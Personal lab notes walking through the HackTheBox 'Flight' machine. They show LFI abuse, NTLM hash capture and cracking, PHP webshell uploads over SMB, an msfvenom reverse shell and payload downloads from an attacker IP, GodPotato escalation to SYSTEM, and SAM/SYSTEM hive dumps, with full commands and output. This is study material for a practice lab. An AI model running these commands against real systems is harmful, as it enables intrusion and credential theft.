



---
tags:
  - hack
  - linux
---
# HackTheBox: [Flight](https://app.hackthebox.com/machines/Flight)

These are my own lightly-edited notes, and not necessarily a detailed walk-through.

> [!tip]- Summary with Spoilers
> - This machine exposed a subdomain, `school.flight.htb`, where I found an LFI vulnerability in `index.php?view=` that revealed sensitive files.
> - I recovered the hash for `svc_apache` from the exposed files and cracked it to retrieve credentials.
> - I escalated to `c.bum` by exploiting SMB share `WRITE` permissions and used `RunAsCs.exe` to pivot.
> - Privilege escalation was achieved using `GodPotato-NET4.exe`, granting full system access and enabling a `DCSync` attack for domain compromise.

## Enumeration

### `nmap`

#### TCP

- Target: `flight.htb 10.10.11.187`
- Command: `nmap -v --reason -Pn -T4 --min-rate 1000 -p- --open -sCV -oA nmap_tcp-flight.htb flight.htb`

I see the usual open ports for a Windows domain controller, plus a web server running on port 80.

##### 80/tcp-http `Apache httpd` `2.4.52` `((Win64) OpenSSL/1.1.1m PHP/8.1.1)`

```text
__http-methods:
  Supported Methods: GET POST OPTIONS HEAD TRACE
  Potentially risky methods: TRACE
__http-title:
g0 Aviation
__http-server-header:
Apache/2.4.52 (Win64) OpenSSL/1.1.1m PHP/8.1.1
```

### Manual Enumeration

The web page is for "g0 Aviation". The page looks juicy but it appears to be static, with all dummy links (`/index.html#`).


I run `feroxbuster -u http://flight.htb -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -d2 -k -s 200,301,302` but don't find anything interesting.

I run `ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt -u http://flight.htb -H 'Host: FUZZ.flight.htb'  -ac` and discover one new subdomain, `school.flight.htb`:



#### File Inclusion

The URLs on the page look potentially vulnerable to LFI, e.g.: `http://school.flight.htb/index.php?view=blog.html`

I try `http://school.flight.htb/index.php?view=index.php` and I'm able to retrieve some PHP inline with the response:

```php
...
<?php

ini_set('display_errors', 0);
error_reporting(E_ERROR | E_WARNING | E_PARSE);

if(isset($_GET['view'])){
$file=$_GET['view'];
if ((strpos(urldecode($_GET['view']),'..')!==false)||
    (strpos(urldecode(strtolower($_GET['view'])),'filter')!==false)||
    (strpos(urldecode($_GET['view']),'\\')!==false)||
    (strpos(urldecode($_GET['view']),'htaccess')!==false)||
    (strpos(urldecode($_GET['view']),'.shtml')!==false)
){
    echo "<h1>Suspicious Activity Blocked!";
    echo "<h3>Incident will be reported</h3>\r\n";
}else{
    echo file_get_contents($_GET['view']);
}
}else{
    echo file_get_contents("C:\\xampp\\htdocs\\school.flight.htb\\home.html");
}
...
```

Ironically, my first try dumped the code to filter malicious activity but it didn't actually trigger that filter.

I request `http://school.flight.htb/index.php?view=.htaccess` to trigger it on purpose:



The filter checks for `..` but it doesn't prevent using an absolute path, e.g. `http://school.flight.htb/index.php?view=c:/windows/system32/drivers/etc/hosts` works just fine:



The Apache config is available at `http://school.flight.htb/index.php?view=c:/xampp/apache/conf/httpd.conf` but doesn't tell me much.

I try to get a webshell, using this:

```http
GET /index.php?view=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnaGF4Jzs/Pgo= HTTP/1.1
```

The server returns `<?php system($_GET['cmd']);echo 'hax';?>` in the response but it's not executed. I append `.php` to the URL and the PHP code isn't include in the response, making me think it's being executed, but I can't see any results when I try, e.g.: `&cmd=whoami`

I try to fetch a webshell from my attack machine, like this:

```console
http://school.flight.htb/index.php?view=http://10.10.14.21/sh.php
```

But the shell is included in the response:

```html
<!DOCTYPE html>
<html>
<head>
<title>Aviation School</title>
<meta charset="UTF-8" />
<link rel="stylesheet" type="text/css" href="styles/style.css" />
<!--[if IE 6]><link rel="stylesheet" type="text/css" href="styles/ie6.css" /><![endif]-->
</head>
<body>
<div id="page">
  <div id="header">
    <div id="section">
      <div><a href="index.html"></a></div>
       </div>
    <ul>
      <li><a href="index.php?view=home.html">Home</a></li>
      <li><a href="index.php?view=about.html">About Us</a></li>
      <li><a href="index.php?view=blog.html">Blog</a></li>
    </ul>
  </div>
<?php system($_GET['cmd']); } ?>
  <div id="footer">
    <div>
      <div id="connect"> <a href="#"></a> <a href="#"></a> <a href="#"></a> </div>
      <div class="section">
        <p>Copyright &copy; <a href="#">Domain Name</a> - All Rights Reserved | Template By <a href="#">Domain Name</a></p>
      </div>
    </div>
  </div>
</div>
</body>
</html>
```

Seems this is because `index.php` is using [file_get_contents](https://www.php.net/manual/en/function.file-get-contents.php) and not something like [include](https://www.php.net/manual/en/function.include.php).

#### NTLM Hash

`http://school.flight.htb/index.php?view=//10.10.14.21/x` gets me a NTLM hash:

```text
[SMB] NTLMv2-SSP Client   : 10.10.11.187
[SMB] NTLMv2-SSP Username : flight\svc_apache
[SMB] NTLMv2-SSP Hash     : svc_apache::flight:290a70d778fcd38c:C90172E173298CBD6465C4F4DFE5CEBA:01010000000000000087614E6419DB0182FE5867EC1CDB07000000000200080041004B0037004F0001001E00570049004E002D004900560056004E003900320050004800510046004F0004003400570049004E002D004900560056004E003900320050004800510046004F002E0041004B0037004F002E004C004F00430041004C000300140041004B0037004F002E004C004F00430041004C000500140041004B0037004F002E004C004F00430041004C00070008000087614E6419DB0106000400020000000800300030000000000000000000000000300000CF3E3A19DAC91A153FA6B18E5B98CB5CF906E9061E2471C36D58A8EEC28EF01F0A001000000000000000000000000000000000000900200063006900660073002F00310030002E00310030002E00310034002E00320031000000000000000000
```

It cracks pretty quickly, so now I have credentials: `svc_apache:S@Ss!K@*t13`

WinRM isn't running, but some interesting SMB shares are available:

```console
$ nxc smb flight.htb -u svc_apache -p 'S@Ss!K@*t13' --shares
SMB         10.10.11.187    445    G0               [*] Windows 10 / Server 2019 Build 17763 x64 (name:G0) (domain:flight.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.187    445    G0               [+] flight.htb\svc_apache:S@Ss!K@*t13
SMB         10.10.11.187    445    G0               [*] Enumerated shares
SMB         10.10.11.187    445    G0               Share           Permissions     Remark
SMB         10.10.11.187    445    G0               -----           -----------     ------
SMB         10.10.11.187    445    G0               ADMIN$                          Remote Admin
SMB         10.10.11.187    445    G0               C$                              Default share
SMB         10.10.11.187    445    G0               IPC$            READ            Remote IPC
SMB         10.10.11.187    445    G0               NETLOGON        READ            Logon server share
SMB         10.10.11.187    445    G0               Shared          READ
SMB         10.10.11.187    445    G0               SYSVOL          READ            Logon server share
SMB         10.10.11.187    445    G0               Users           READ
SMB         10.10.11.187    445    G0               Web             READ
```

I have a hard time accessing the shares. The `spider_plus` module repeatedly gives errors like this:

```console
SPIDER_PLUS 10.10.11.187    445    G0               [*] Reconnection attempt #1/5 to server.
```

I can connect via `smbclient -U 'svc_apache' --password='S@Ss!K@*t13' \\\\flight.htb\\web` but I don't find anything particularly interesting across any of the shares. The `Web` share lists the web content,

```console
$ smbclient -U 'svc_apache' --password='S@Ss!K@*t13' \\\\flight.htb\\web
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Tue Oct  8 18:52:01 2024
  ..                                  D        0  Tue Oct  8 18:52:01 2024
  flight.htb                          D        0  Tue Oct  8 18:52:01 2024
  school.flight.htb                   D        0  Tue Oct  8 18:52:01 2024

                5056511 blocks of size 4096. 1255128 blocks available
```

But, there's nothing I didn't already know.

I continue enumerating:

```console
$ nxc smb flight.htb -u svc_apache -p 'S@Ss!K@*t13' --users
SMB         10.10.11.187    445    G0               [*] Windows 10 / Server 2019 Build 17763 x64 (name:G0) (domain:flight.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.187    445    G0               [+] flight.htb\svc_apache:S@Ss!K@*t13
SMB         10.10.11.187    445    G0               -Username-                    -Last PW Set-       -BadPW- -Description-
SMB         10.10.11.187    445    G0               Administrator                 2022-09-22 20:17:02 0       Built-in account for administering the computer/domain
SMB         10.10.11.187    445    G0               Guest                         <never>             0       Built-in account for guest access to the computer/domain
SMB         10.10.11.187    445    G0               krbtgt                        2022-09-22 19:48:01 0       Key Distribution Center Service Account
SMB         10.10.11.187    445    G0               S.Moon                        2022-09-22 20:08:22 0       Junion Web Developer
SMB         10.10.11.187    445    G0               R.Cold                        2022-09-22 20:08:22 0       HR Assistant
SMB         10.10.11.187    445    G0               G.Lors                        2022-09-22 20:08:22 0       Sales manager
SMB         10.10.11.187    445    G0               L.Kein                        2022-09-22 20:08:22 0       Penetration tester
SMB         10.10.11.187    445    G0               M.Gold                        2022-09-22 20:08:22 0       Sysadmin
SMB         10.10.11.187    445    G0               C.Bum                         2022-09-22 20:08:22 0       Senior Web Developer
SMB         10.10.11.187    445    G0               W.Walker                      2022-09-22 20:08:22 0       Payroll officer
SMB         10.10.11.187    445    G0               I.Francis                     2022-09-22 20:08:22 0       Nobody knows why he's here
SMB         10.10.11.187    445    G0               D.Truff                       2022-09-22 20:08:22 0       Project Manager
SMB         10.10.11.187    445    G0               V.Stevens                     2022-09-22 20:08:22 0       Secretary
SMB         10.10.11.187    445    G0               svc_apache                    2022-09-22 20:08:23 0       Service Apache web
SMB         10.10.11.187    445    G0               O.Possum                      2022-09-22 20:08:23 0       Helpdesk
```

I clean up that list and put it into `u.txt`, and the password I found into `p.txt`. I pick up one new account:

```console
$ nxc smb flight.htb -u ./u.txt -p ./p.txt  --continue-on-success
SMB         10.10.11.187    445    G0               [*] Windows 10 / Server 2019 Build 17763 x64 (name:G0) (domain:flight.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.187    445    G0               [-] flight.htb\Administrator:S@Ss!K@*t13 STATUS_LOGON_FAILURE
SMB         10.10.11.187    445    G0               [-] flight.htb\Guest:S@Ss!K@*t13 STATUS_LOGON_FAILURE
SMB         10.10.11.187    445    G0               [+] flight.htb\S.Moon:S@Ss!K@*t13
...
```

The user `s.moon` has `WRITE` access to the `Shared` folder. I try re-running `spider_plus` but it still fails.

I try `smbclient` and after some trial and error discover that I'm able to upload files but there are restrictions on what I can name the files.

```console
$ smbclient -U s.moon%'S@Ss!K@*t13' \\\\flight.htb\\Shared
Try "help" to get a list of possible commands.
smb: \> put sh.php
NT_STATUS_ACCESS_DENIED opening remote file \sh.php
smb: \> put sh.php sh.notphp
putting file sh.php as \sh.notphp (0.1 kb/s) (average 0.1 kb/s)
smb: \> rename sh.notphp sh.php
NT_STATUS_ACCESS_DENIED renaming files \sh.notphp -> \sh.php
smb: \> rename sh.notphp sh.txt
NT_STATUS_ACCESS_DENIED renaming files \sh.notphp -> \sh.txt
smb: \> rename sh.notphp sh.aspx
NT_STATUS_ACCESS_DENIED renaming files \sh.notphp -> \sh.aspx
smb: \> rename sh.notphp sh.asdf
smb: \>
```

But, even if I _can_ write a file with a `php` extension or similar, I still won't be able to `include()` it via the file-inclusion exploit. Dead end?

#### Kerberos and BloodHound

I check `GetNPUsers` for the list of users with pre-auth disabled, but no luck.

I check `GetUserSPNs` for the list of Kerberoastable users without any results.

I grab data for BloodHound: `bloodhound-python -u s.moon -p 'S@Ss!K@*t13' -c all --zip -ns 10.10.11.187 -d flight.htb`. The user `s.moon` doesn't have any interesting privileges. Neither does anybody else.

#### Webshell Revised

Using the user `s.moon` I can upload a file to `Shared` and include it via the web page, but the PHP still isn't being executed:

```console
smb: \> !cat sh.php
<?php system($_GET['cmd']); } ?>
smb: \> put sh.php x
putting file sh.php as \x (0.1 kb/s) (average 0.1 kb/s)
```

```html
$ curl -s 'http://school.flight.htb/index.php?view=c:/shared/x' |tail -n13
  </div>
<?php system($_GET['cmd']); } ?>
  <div id="footer">
    <div>
      <div id="connect"> <a href="#"></a> <a href="#"></a> <a href="#"></a> </div>
      <div class="section">
        <p>Copyright &copy; <a href="#">Domain Name</a> - All Rights Reserved | Template By <a href="#">Domain Name</a></p>
      </div>
    </div>
  </div>
</div>
</body>
</html>
```

Note the `<?php …` code in the HTML above.

I can do the same thing by fetching a webshell from my machine:

```html
$ curl -s 'http://school.flight.htb/index.php?view=http://10.10.14.21/sh.php'
<!DOCTYPE html>
...
    </ul>
  </div>
<?php system($_GET['cmd']); } ?>
  <div id="footer">
    <div>
...
```

I know I can trigger a RFI that has arbitrary PHP code passed to `file_get_contents()`. I don't know how to get that code to execute. I have multiple vectors to do this, including writing to the `Shared` SMB share, by fetching a webshell via HTTP, and via log poisoning via my user agent. I can also send `base64` encoded payload via `data:…`, but in all cases I'm stuck on executing that PHP code via `index.php?view=…` and so this currently feels like a dead end.

There are some `access.log` entries showing malicious activity from someone else. Not sure if this was left there on purpose or if it was the box creators testing it:

```text
...
[Fri Sep 23 00:28:34.265729 2022] [php:warn] [pid 4876:tid 1940] [client 192.168.22.248:43760] PHP Warning:  include(\\\\192.168.22.248\\ASD): Failed to open stream: Permission denied in C:                    \\xampp\\htdocs\\school.flight.htb\\index.php on line 15                                                                                                                                                         [Fri Sep 23 00:28:34.265729 2022] [php:warn] [pid 4876:tid 1940] [client 192.168.22.248:43760] PHP Warning:  include(): Failed opening '//192.168.22.248/asd' for inclusion (include_path='\\xampp\\php\\PEAR')  in C:\\xampp\\htdocs\\school.flight.htb\\index.php on line 15
[Fri Sep 23 00:36:38.750933 2022] [php:warn] [pid 4876:tid 1940] [client 192.168.22.248:51720] PHP Warning:  Undefined array key "cmd" in C:\\xampp\\htdocs\\flight.htb\\rev.php on line 1                       [Fri Sep 23 00:36:38.750933 2022] [php:notice] [pid 4876:tid 1940] [client 192.168.22.248:51720] PHP Deprecated:  system(): Passing null to parameter #1 ($command) of type string is deprecated in C:           \\xampp\\htdocs\\flight.htb\\rev.php on line 1
[Fri Sep 23 00:36:38.750933 2022] [php:error] [pid 4876:tid 1940] [client 192.168.22.248:51720] PHP Fatal error:  Uncaught ValueError: system(): Argument #1 ($command) cannot be empty in C:                    \\xampp\\htdocs\\flight.htb\\rev.php:1\nStack trace:\n#0 C:\\xampp\\htdocs\\flight.htb\\rev.php(1): system('')\n#1 {main}\n  thrown in C:\\xampp\\htdocs\\flight.htb\\rev.php on line 1
[Fri Sep 23 00:36:50.455237 2022] [php:error] [pid 4876:tid 1940] [client 192.168.22.248:39504] script 'C:/xampp/htdocs/flight.htb/rev.php' not found or unable to stat
[Fri Sep 23 00:37:27.015376 2022] [php:error] [pid 4876:tid 1940] [client 192.168.22.248:58952] script 'C:/xampp/htdocs/flight.htb/rev.php' not found or unable to stat                                          #< CLIXML
...
```

Anyway, looks like _someone_ was able to write a `rev.php` file to the webroot.

I play around with a malicious `phar`, but I can't get the LFI to find it.

I upload the `phar` via `smbclient`:

```console
smb: \> put x.phar
putting file x.phar as \x.phar (0.6 kb/s) (average 0.4 kb/s)
```

And try to trigger it using `http://school.flight.htb/index.php?view=phar://c:/shared/x.phar?cmd=whoami`.

```console
$ lfi C:/xampp/apache/logs/error.log |tail -n1
[Tue Oct 08 22:02:10.134847 2024] [php:warn] [pid 5200:tid 1928] [client 10.10.14.21:50536] PHP Warning:  file_get_contents(phar://c:/shared/x.phar?cmd=whoami): Failed to open stream: phar error: invalid url or non-existent phar &quot;phar://c:/shared/x.phar?cmd=whoami&quot; in C:\\xampp\\htdocs\\school.flight.htb\\index.php on line 45
```

Note, I was able to check that error message using a function to make fetching files via the LFI convenient:

```bash
lfi ()
{
    curl -s "http://school.flight.htb/index.php?view=$1" | tail -n +21 | head -n -11
}
```

Here are various other error messages I trigger using various attempts to exploit the file inclusion vulnverability:

- URL-> `http://school.flight.htb/index.php?view=data://text/plain;base64,PD9waHAgcGhwaW5mbygpOyA/Pgo=.php`:
  - Log-> `error.log`: `[Tue Oct 08 22:05:35.509964 2024] [php:warn] [pid 5200:tid 1928] [client 10.10.14.21:56312] PHP Warning:  file_get_contents(data://text/plain;base64,PD9waHAgcGhwaW5mbygpOyA/Pgo=.php): Failed to open stream: rfc2397: unable to decode in C:\\xampp\\htdocs\\school.flight.htb\\index.php on line 45`
  - URL-> `http://school.flight.htb/index.php?view=http://10.10.14.21/sh.php&cmd=whoami`
    - Log-> `access.log`: `10.10.14.21 - - [08/Oct/2024:22:06:49 -0700] "GET /index.php?view=http://10.10.14.21/sh.php&cmd=whoami HTTP/1.1" 200 1135 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0"` (but the PHP doesn't execute)

#### NTLM Theft

After six hours in, I decide to [check 0xdf's walk-through](https://0xdf.gitlab.io/2023/05/06/htb-flight.html):

So, I'll try to steal more NTLMv2 credentials using the `Shared` share. There's a nice tool to create various malicious files for this purpose called [ntlm_theft](https://github.com/Greenwolf/ntlm_theft). It works, pretty cool!:

```console
$ python3 ~/src/ntlm_theft/ntlm_theft.py --generate all --server 10.10.14.21 --filename x
Created: x/x.scf (BROWSE TO FOLDER)
Created: x/x-(url).url (BROWSE TO FOLDER)
Created: x/x-(icon).url (BROWSE TO FOLDER)
Created: x/x.lnk (BROWSE TO FOLDER)
Created: x/x.rtf (OPEN)
Created: x/x-(stylesheet).xml (OPEN)
Created: x/x-(fulldocx).xml (OPEN)
Created: x/x.htm (OPEN FROM DESKTOP WITH CHROME, IE OR EDGE)
Created: x/x-(includepicture).docx (OPEN)
Created: x/x-(remotetemplate).docx (OPEN)
Created: x/x-(frameset).docx (OPEN)
Created: x/x-(externalcell).xlsx (OPEN)
Created: x/x.wax (OPEN)
Created: x/x.m3u (OPEN IN WINDOWS MEDIA PLAYER ONLY)
Created: x/x.asx (OPEN)
Created: x/x.jnlp (OPEN)
Created: x/x.application (DOWNLOAD AND OPEN)
Created: x/x.pdf (OPEN AND ALLOW)
Created: x/zoom-attack-instructions.txt (PASTE TO CHAT)
Created: x/Autorun.inf (BROWSE TO FOLDER)
Created: x/desktop.ini (BROWSE TO FOLDER)
Generation Complete.
```

I upload these to `Shared` and get a bite right away:

```console
[SMB] NTLMv2-SSP Hash     : c.bum::flight.htb:f3b09dcbb1bf2b73:D9A915A853340FBE4D6934DB3C5E7667:010100000000000000BD637C9E19DB0130F40058F8AA061C0000000002000800580032005300530001001E00570049004E002D00440049005900460042004B004E00450054003200360004003400570049004E002D00440049005900460042004B004E0045005400320036002E0058003200530053002E004C004F00430041004C000300140058003200530053002E004C004F00430041004C000500140058003200530053002E004C004F00430041004C000700080000BD637C9E19DB0106000400020000000800300030000000000000000000000000300000BF4142DE3503D9336BED1EFEC0ABB9445B3E442DFEDE4C3948E22D6E103A56D20A001000000000000000000000000000000000000900200063006900660073002F00310030002E00310030002E00310034002E00320031000000000000000000
```

This hash also cracks quickly, so now I have another set of credentials: `c.bum:Tikkycoll_431012284`

I re-run `nxc smb …` but it only validates that set of credentials, so apparently the password isn't reused for any other account in my list.

Now I can write to the `Web` SMB share:

```console
$ nxc smb flight.htb -u c.bum -p Tikkycoll_431012284 --shares
...
SMB         10.10.11.187    445    G0               Web             READ,WRITE
```

I'll upload a PHP webshell:

```console
smb: \flight.htb\> !cat sh.php
<?php system($_GET['cmd']); ?>
smb: \flight.htb\> put sh.php
putting file sh.php as \flight.htb\sh.php (0.1 kb/s) (average 0.1 kb/s)
```

It works:

```console
$ curl -s http://flight.htb/sh.php?cmd=whoami
flight\svc_apache
```

## Remote Code Execution

I upload a reverse-shell courtesy of `msfvenom -p windows/x64/powershell_reverse_tcp LHOST=tun0 LPORT=443 -f exe -o ~/www/rev.exe`:

```console
smb: \flight.htb\> put ../www/rev.exe rev.exe
putting file ../www/rev.exe as \flight.htb\rev.exe (25.0 kb/s) (average 7.0 kb/s)
```

And trigger it:

```console
$ curl -s http://flight.htb/sh.php?cmd=rev.exe
```

```console
listening on [any] 443 ...
connect to [10.10.14.21] from (UNKNOWN) [10.10.11.187] 50585
Windows PowerShell running as user svc_apache on G0
Copyright (C) Microsoft Corporation. All rights reserved.

whoami
flight\svc_apache
```

### Pivoting to `C.Bum`

There is an IIS server bound to 127.0.0.1 on port 8000. It looks to be the development version for portions of the Apache website.

I want to pivot to `c.bum`, who is the web developer, but as of yet I'm unable to get a shell, and WinRM is disabled. 0xdf [wrote](https://0xdf.gitlab.io/2023/05/06/htb-flight.html) about [RunAsCs](https://github.com/antonioCoco/RunasCs), which is really useful:

```powershell
PS C:\Users\svc_apache> iwr 10.10.14.21/r.exe -outfile r.exe
PS C:\Users\svc_apache> .\r.exe c.bum Tikkycoll_431012284 -r 10.10.14.21:443 powershell
[*] Warning: The logon for user 'c.bum' is limited. Use the flag combination --bypass-uac and --logon-type '8' to obtain a more privileged token.

[+] Running in session 0 with process function CreateProcessWithLogonW()
[+] Using Station\Desktop: Service-0x0-5c963$\Default
[+] Async process 'C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe' with pid 352 created in background.
```

```console
listening on [any] 443 ...
connect to [10.10.14.21] from (UNKNOWN) [10.10.11.187] 50615
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Windows\system32> whoami
whoami
flight\c.bum
```

The `user.txt` flag is available in this user's `Desktop` directory.

## Privilege Escalation

With write permissions for the IIS web files, I can write a reverse shell in `aspx` format:

```powershell
PS C:\inetpub\development> iwr 10.10.14.21/sh.aspx -outfile sh.aspx
iwr 10.10.14.21/sh.aspx -outfile sh.aspx
PS C:\inetpub\development> iwr 127.0.0.1:8000/sh.aspx
iwr 127.0.0.1:8000/sh.aspx
```

```console
listening on [any] 443 ...
connect to [10.10.14.21] from (UNKNOWN) [10.10.11.187] 50638
Windows PowerShell running as user G0$ on G0
Copyright (C) Microsoft Corporation. All rights reserved.

whoami
iis apppool\defaultapppool
PS C:\windows\system32\inetsrv> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeMachineAccountPrivilege     Add workstations to domain                Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege       Create global objects                     Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

I try `PrintSpoofer64.exe` but it fails:

```powershell
PS C:\Windows\system32\config\systemprofile> cd /windows/temp
PS C:\windows\temp> iwr 10.10.14.21/PrintSpoofer64.exe -outfile ps.exe
PS C:\windows\temp> ./ps.exe -i -c powershell
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[-] Operation failed or timed out.
```

The print service is probably disabled. So, I try [GodPotato](https://github.com/BeichenDream/GodPotato) :

```powershell
PS C:\windows\temp> iwr 10.10.14.21/GodPotato-NET4.exe -outfile gp.exe
PS C:\windows\temp> ./gp.exe -cmd "cmd /c whoami"
[*] CombaseModule: 0x140710331678720
[*] DispatchTable: 0x140710333984832
[*] UseProtseqFunction: 0x140710333361360
[*] UseProtseqFunctionParamCount: 6
[*] HookRPC
[*] Start PipeServer
[*] Trigger RPCSS
[*] CreateNamedPipe \\.\pipe\420b05d7-9b6b-4484-b66c-a028d944abec\pipe\epmapper
[*] DCOM obj GUID: 00000000-0000-0000-c000-000000000046
[*] DCOM obj IPID: 0000d402-0cb4-ffff-0459-a20e2f05ed47
[*] DCOM obj OXID: 0x15b34229b413b9aa
[*] DCOM obj OID: 0x70e5f52967b53dc2
[*] DCOM obj Flags: 0x281
[*] DCOM obj PublicRefs: 0x0
[*] Marshal Object bytes len: 100
[*] UnMarshal Object
[*] Pipe Connected!
[*] CurrentUser: NT AUTHORITY\NETWORK SERVICE
[*] CurrentsImpersonationLevel: Impersonation
[*] Start Search System Token
[*] PID : 920 Token:0x808  User: NT AUTHORITY\SYSTEM ImpersonationLevel: Impersonation
[*] Find System Token : True
[*] UnmarshalObject: 0x80070776
[*] CurrentUser: NT AUTHORITY\SYSTEM
[*] process start with pid 5876
nt authority\system

PS C:\windows\temp> iwr 10.10.14.21/rev.exe -outfile rev.exe
PS C:\windows\temp> ./gp.exe -cmd "cmd /c c:/windows/temp/rev.exe"
```

```powershell
listening on [any] 443 ...
connect to [10.10.14.21] from (https://github.com/BeichenDream/GodPotato) [10.10.11.187] 50681
Windows PowerShell running as user G0$ on G0
Copyright (C) Microsoft Corporation. All rights reserved.

whoami
nt authority\system
PS C:\windows\temp> cat /users/administrator/desktop/root.txt
80b46e...
```

## Post-exploitation

### LSA

I capture the system user hash via `PS C:\windows\temp> ls \\10.10.14.21\x`:

```console
[SMB] NTLMv2-SSP Hash     : G0$::flight:35851c5baddbb88d:43240413ECE9FCC35BD6FEFBB196A1D6:0101000000000000807628ECA319DB01A67FA1FF50FD9EFC0000000002000800570051004200420001001E00570049004E002D0033005000530057004900470041005A00450047004B0004003400570049004E002D0033005000530057004900470041005A00450047004B002E0057005100420042002E004C004F00430041004C000300140057005100420042002E004C004F00430041004C000500140057005100420042002E004C004F00430041004C0007000800807628ECA319DB0106000400020000000800300030000000000000000000000000400000BF4142DE3503D9336BED1EFEC0ABB9445B3E442DFEDE4C3948E22D6E103A56D20A001000000000000000000000000000000000000900200063006900660073002F00310030002E00310030002E00310034002E00320031000000000000000000
```

But it doesn't crack and I'm not sure it's very useful compared to what I can do with my existing shell access.

I try Mimikatz:

```powershell
PS C:\windows\temp> iwr 10.10.14.21/mk.exe -outfile mk.exe
PS C:\windows\temp> ./mk.exe
```

Unfortunately, this hangs the shell. Likewise with winPEAS.

I save `SAM` and `SYSTEM`, just in case:

```powershell
PS C:\windows\temp> reg save hklm\sam ./sam
The operation completed successfully.

PS C:\windows\temp> reg save hklm\system ./system
The operation completed successfully.
```

